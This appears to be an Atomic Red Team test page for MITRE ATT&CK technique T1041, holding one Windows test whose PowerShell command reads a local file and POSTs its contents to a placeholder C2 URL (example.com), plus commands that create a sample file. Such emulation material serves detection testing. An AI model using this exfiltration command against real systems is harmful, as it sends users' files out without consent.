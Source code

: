 # T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | string | C:&#92;Users&#92;$env:UserName&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```




#### Dependencies:  Run with `powershell`!
##### Description: The file to be exfiltrated must be present on the machine. Running the pre-reqs will create a sample file to be exfiltrated, else give the path of already present file as input.
##### Check Prereq Commands:
```powershell
if ([System.IO.File]::Exists("#{filepath}")){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
echo "Creating file to be exfiltrated" 
1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
```




<br/>
